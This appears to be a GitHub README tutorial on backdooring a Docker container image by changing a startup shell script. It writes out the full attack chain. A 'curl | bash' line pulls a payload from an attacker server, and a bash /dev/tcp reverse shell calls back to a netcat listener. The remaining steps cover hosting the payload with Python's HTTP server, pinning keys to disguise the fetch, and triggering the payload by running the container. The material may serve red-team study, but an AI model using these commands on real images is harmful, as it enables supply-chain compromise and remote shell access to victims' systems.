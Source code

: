 # Backdoored shell script in container image

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```curl -s http://<ip_address>:8000/payload.txt | bash```

For added security use public key pinning:

```curl -Iksv --pinnedpubkey sha256//0 https://<your_site>.com```

Use the value from output called public key hash (This is the format curl will expect in the next command)

```curl -sk --pinnedpubkey <format>//<key_hash> https://<your_site>.com```

This will curl the website with the public key pinned (-k is used if you have a self signed certificate)

### Build the image

* Update line 4 with the ip address of your payload server

```docker build -t backdoor .```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```touch payload.txt```


### Add your payload (in this example the reverse shell)

```nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```python -m SimpleHTTPServer```

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```netcat -lkvp 8080```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```docker run -it backdoor```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)

